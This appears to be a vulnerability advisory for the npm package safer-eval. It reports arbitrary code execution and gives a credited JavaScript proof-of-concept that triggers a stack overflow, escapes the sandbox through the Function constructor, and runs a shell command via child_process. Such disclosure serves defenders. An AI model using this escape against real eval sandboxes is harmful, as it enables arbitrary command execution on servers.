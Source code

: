 # Overview
[safer-eval](https://www.npmjs.com/package/safer-eval) is a safer approach for eval in node and browser.

Affected versions of this package are vulnerable to Arbitrary Code Execution via generating a  `RangeError: Maximum call stack size exceeded`.

## Proof of Concept (Credit: Jonathan Leitschuh)
```js
const theFunction = function () {
  const f = Buffer.prototype.write;
  const ft = {
    length: 10,
    utf8Write(){}
  };
  function r(i){
    var x = 0;
    try{
      x = r(i);
    }catch(e){}
    if(typeof(x)!=='number')
      return x;
    if(x!==i)
      return x+1;
    try{
      f.call(ft);
    }catch(e){
      return e;
    }
    return null;
  }
  var i=1;
  while(1){
    try{
      i=r(i).constructor.constructor("return process")();
      break;
    }catch(x){
      i++;
    }
  }
  return i.mainModule.require("child_process").execSync("id").toString()
};
const untrusted = `(${theFunction})()`;

console.log(saferEval(untrusted));
```